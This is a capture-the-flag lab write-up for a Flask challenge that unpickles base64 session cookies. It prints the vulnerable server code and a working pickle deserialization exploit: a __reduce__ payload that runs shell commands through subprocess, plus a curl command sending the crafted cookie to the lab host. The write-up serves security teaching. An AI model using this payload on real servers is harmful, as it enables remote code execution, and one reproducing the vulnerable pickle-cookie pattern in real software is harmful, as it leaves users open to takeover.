 ```yaml
---
title: Simple Web 0x16(Lab - Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x16(Lab - Pickle)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8600/
Note: open a brand new window that haven't login `http://h4ck3r.quest`

## Background
[0x15.5(Pickle)](/IcoQql7UQiegLv8KtK2wOw)

## Source code
:::spoiler code
```pyton=
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```
:::
### Description & Analyze
In main function, it'll request session and parse it by `base64` then deserialize it.
If session is none, you can enter your name and age then it'll serialize the data and transfer by base64.
For example: name=123, age=123
The Cookie: session=`gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg==`
```python!
>>> pickle.loads(base64.b64decode('gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg=='))
{'name': '123', 'age': 123}
```

## Exploit
1. Construct exploit function
Note that the format must be `{'name': '', 'age': ''}`
2. Payload
    ```python!
    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls',))

    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    ```
    Note that, must not use `os.system` in this situation. 'Cause in addition to the result of `os.system('{command}')`, it'll return exit status code.
    > On Unix, the return value is the exit status of the process encoded in the format specified for wait(). Note that POSIX does not specify the meaning of the return value of the C system() function, so the return value of the Python function is system-dependent.

    So that if we use `os.system` as payload directly the output will not be render correctly.
    * For instance:
        ```python!
        class exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))


        serialized = pickle.dumps({
                "name": '123',
                "age": exploit()
                })
        optim_s = base64.b64encode(serialized)
        print(pickle.loads(base64.b64decode(optim_s)))
        ```
        ```bash!
        $ python pickle_exp.py
        exploit.py  pickle_exp.py  server_app.py
        {'name': '123', 'age': 0}
        ```
        or
        You can execute it in wsl directly.
        ![](https://i.imgur.com/7XrSWl6.png)
    So, you can use `subprocess.getoutput` to fetch the outcome without exit code
    ![](https://i.imgur.com/T8kvBel.png)
3. Whole exploit
    ```python=
    import pickle
    import os
    import pickletools
    import base64

    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls -al /',))


    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    optim_s = pickletools.optimize(serialized)

    cookie = base64.b64encode(optim_s).decode()

    os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
    ```

## Result
![](https://i.imgur.com/UoFhBVM.png)
